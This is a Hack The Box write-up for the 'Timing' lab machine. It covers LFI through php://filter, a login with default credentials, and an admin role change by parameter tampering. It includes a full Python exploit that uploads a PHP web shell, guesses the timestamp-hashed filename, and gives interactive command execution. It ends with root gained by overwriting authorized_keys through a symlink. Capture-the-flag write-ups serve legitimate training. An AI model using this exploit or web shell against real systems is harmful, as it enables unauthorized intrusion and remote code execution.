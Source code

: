```yaml
---
layout: single
title: Timing - Hack The Box
date: 2022-1-10
desc: "Timing is a fun machine where after network and directory enumeration we discover image.php we fuzz this php file with ffuf and find a ?img= parameter which if we pass /etc/passwd the server tells us “hacking attempt”. If we try it with php://filter with base64 encoding we will have successfully a LFI Vulnerability. Reading the /etc/passwd file the aaron user shows up which we use for login in the web server with default credentials(aaron:aaron). After gaining access to the web server we will see the edit profile menu from which you can get access to admin user. After that a new menu shows up admin panel which allows us to upload an image. After upload we must find the filename with php payload and enumerate to /opt folder which contains a backup file which contains a git repository. Enumerate the folder and we find a git logs which shows the database configuration changes(password for ssh). Login with aaron user name and the password with ssh. At the root part we have access to /usr/bin/netutils as root which allows us to download a file from another server with http and ftp. First create a symbolic link to /root/.ssh/authorized_keys and a new private & public rsa key to the attacking machine. Start a http server from the attacking machine and download it from netutils. That means when the file comes to the timing machine the authorized keys we will overwrite."
category: "boot2root"
---
```


<h1 align="center">
<img src="/assets/images/htb-writeup-timing/timing-banner.png">
</h1>

Timing is a fun machine where after network and directory enumeration we discover image.php we fuzz this php file with ffuf and find a ?img= parameter which if we pass /etc/passwd the server tells us “hacking attempt”. If we try it with php://filter with base64 encoding we will have successfully a LFI Vulnerability. Reading the /etc/passwd file the aaron user shows up which we use for login in the web server with default credentials(aaron:aaron). After gaining access to the web server we will see the edit profile menu from which you can get access to admin user. After that a new menu shows up admin panel which allows us to upload an image. After upload we must find the filename with php payload and enumerate to /opt folder which contains a backup file which contains a git repository. Enumerate the folder and we find a git logs which shows the database configuration changes(password for ssh). Login with aaron user name and the password with ssh. At the root part we have access to /usr/bin/netutils as root which allows us to download a file from another server with http and ftp. First create a symbolic link to /root/.ssh/authorized_keys and a new private & public rsa key to the attacking machine. Start a http server from the attacking machine and download it from netutils. That means when the file comes to the timing machine the authorized keys we will overwrite.

## Network Enumeration

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:5c:40:d7:c9:fe:ff:a8:83:c3:6e:cd:60:11:d2:eb (RSA)
|   256 18:c9:f7:b9:27:36:a1:16:59:23:35:84:34:31:b3:ad (ECDSA)
|_  256 a2:2d:ee:db:4e:bf:f9:3f:8b:d4:cf:b4:12:d8:20:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Simple WebApp
|_Requested resource was ./login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.81 seconds
```


## Directory Enumeartion

```
/index.php            (Status: 302) [Size: 0] [--> ./login.php]
/images               (Status: 301) [Size: 309] [--> http://timing.htb/images/]
/login.php            (Status: 200) [Size: 5609]                               
/profile.php          (Status: 302) [Size: 0] [--> ./login.php]                
/image.php            (Status: 200) [Size: 0]                                  
/header.php           (Status: 302) [Size: 0] [--> ./login.php]                
/footer.php           (Status: 200) [Size: 3937]                               
/upload.php           (Status: 302) [Size: 0] [--> ./login.php]                
/css                  (Status: 301) [Size: 306] [--> http://timing.htb/css/]   
/js                   (Status: 301) [Size: 305] [--> http://timing.htb/js/]    
/logout.php           (Status: 302) [Size: 0] [--> ./login.php]  
```

## Fuzz parameters image.php

Fuzzing image.php and find an img parameter which from that we will read other .php files and more. <br><br>
<img src="/assets/images/htb-writeup-timing/fuzzing_parameters.png">


## Identify the user from /etc/passwd using php://filter

Identify the LFI vulnerability but with php://filter because the server not allows us to pass special characters like <b>/../../../</b> Read the /etc/passwd and identify the aaron user.

<img src="/assets/images/htb-writeup-timing/lfi_phpfilter.PNG">

<img src="/assets/images/htb-writeup-timing/aaron_user.PNG">

## Login with aaron for the both box values at login page

Login with aaron user (aaron:aaron)<br><br>
<img src="/assets/images/htb-writeup-timing/login_default_creds.PNG">


## Change user role to admin

When we read the profile_update.php we will see this piece of code which allows us to pass the role=1 parameter and change from user2 to admin. <br><br>
<img src="/assets/images/htb-writeup-timing/rolechange.PNG">

<img src="/assets/images/htb-writeup-timing/change_to_admin.PNG">

<img src="/assets/images/htb-writeup-timing/show_adminpanel.PNG">

## Exploit 

At the exploit part to get the RCE. I create this exploit in python combined with php code which i read it from upload.php with LFI from web server. The upload.php creates a hash and append it in the front of the filename($hash_image.jpg). For the exploit we must to upload and generate at the same to find out the name of the file .

```php
<?php
$upload_dir = "images/uploads/";
$file = "exploit.jpg";

$file_name = md5('$file_hash'. time()) . '_' . $file;
$target_file = $upload_dir . $file_name;
echo $file_name;
echo PHP_EOL;
?>
```

```python
#!/usr/bin/python3
import requests
import os
import time
import threading


#Current URL=http://timing.htb
def upload_post_req():
	burp0_url = "http://timing.htb:80/upload.php"
	burp0_cookies = {"PHPSESSID": "lo4d1l8c8df2b7lgr7vrutethl"} #Change this cookie to our admin cookie
	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------358100878512268049331587005052", "Origin": "http://timing.htb", "Connection": "close", "Referer": "http://timing.htb/avatar_uploader.php"}
	burp0_data = "-----------------------------358100878512268049331587005052\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"exploit.jpg\"\r\nContent-Type: txt/php\r\n\r\n<?php system($_GET['cmd']); ?>\n\r\n-----------------------------358100878512268049331587005052--\r\n"
	r=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
	
def fname_generator():
	print("Running...")
	for i in range(15):
		os.system("php -f fname_generator.php >> output.txt")
		if(i==6):
			threading.Thread(target=upload_post_req).start()
		time.sleep(1)


def response_c(filename):
	VECTOR="http://timing.htb/images/uploads/"
	r=requests.get(VECTOR+str(filename))
	return r.status_code

def injector(filename, cmd):
	VECTOR="http://timing.htb/image.php?img=images/uploads/"
	r=requests.get(VECTOR+filename+"&cmd="+cmd)
	print(r.text)

if __name__ == "__main__":	

	fname_generator()
	
	hash_names=[]
	f = open("output.txt", "r")
	for i in range(15):
		hash_names.append(f.readline().strip("\n"))
	f.close()
	
	for filename in hash_names:
		if str(response_c(filename))=="200":
			os.system("clear")
			print("Success!")
			while(1):
				cmd=input("> ")
				injector(filename, cmd)
				if cmd=="exit":
					break
	
	os.system("rm output.txt")
```

<img src="/assets/images/htb-writeup-timing/run_exploit.png">

<img src="/assets/images/htb-writeup-timing/run_exploit_success.png">


## Download zip backup from /opt folder

Enumerate and download the backup file from opt directory. <br>
<img src="/assets/images/htb-writeup-timing/download_and_unzip.PNG">

## Find git changes and discover aaron ssh password

Find the git changes and login with aaron user to ssh. <Br>
<img src="/assets/images/htb-writeup-timing/git_log_ssh_creds.PNG">

<img src="/assets/images/htb-writeup-timing/login_ssh.PNG">



## Root

At the root part we have perms to run the /usb/bin/netutils with allows us to download a file from http and ftp server. to find out the name of the file <br>
<img src="/assets/images/htb-writeup-timing/sudo_l.PNG">

Example of netutils <br>
<img src="/assets/images/htb-writeup-timing/run_netutils.PNG">

1. Create a symbolic link to /root/.ssh/authorized_keys <br>
2. Create a private and public key in attacking machine. <br>
3. Rename the public key <br>
4. Download the file from timing machine <br>
5. Login from attacking machine with private key to root user.
	<br>
	
	
<img src="/assets/images/htb-writeup-timing/priv_esc.PNG">
